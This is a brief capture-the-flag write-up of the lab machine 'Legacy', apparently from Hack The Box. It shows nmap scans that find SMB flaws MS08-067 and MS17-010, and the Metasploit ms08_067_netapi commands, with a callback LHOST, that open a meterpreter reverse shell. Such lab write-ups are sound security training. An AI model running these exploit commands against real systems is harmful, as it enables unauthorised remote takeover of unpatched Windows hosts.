 ```yaml
---
description: One of the first few boxes I've done!
---
```


# Legacy

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.242
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 09:20 EDT
Nmap scan report for 10.129.85.242
Host is up (0.076s latency).
Not shown: 61445 closed tcp ports (conn-refused), 4087 filtered tcp ports (no-response)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

This was an outdated machine, so there was bound to be some vulnerabilities with the SMB service. We can run some `nmap` scripts to determine this:

```
$ sudo nmap --script smb-vuln* -p 445 10.129.85.242 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 09:22 EDT
Nmap scan report for 10.129.85.242
Host is up (0.0060s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
We
Nmap done: 1 IP address (1 host up) scanned in 5.34 seconds
```

So this was vulnerable to MS08-067. We can use `msfconsole` to exploit this.&#x20;

```
use exploit/windows/smb/ms08_067_netapi
set LHOST 10.10.14.13
set RHOSTS 10.129.85.242
exploit
```

This would give us a meterpreter shell.

<figure><img src="../../../.gitbook/assets/image (86) (3) (3).png" alt=""><figcaption></figcaption></figure>

For some reason, `whoami` does not work on the machine. We can use the `whoami.exe` binary that is within Kali at `/usr/share/windows-resources/binaries` and run it via SMB.

<figure><img src="../../../.gitbook/assets/image (81) (5).png" alt=""><figcaption></figcaption></figure>

Rooted!&#x20;
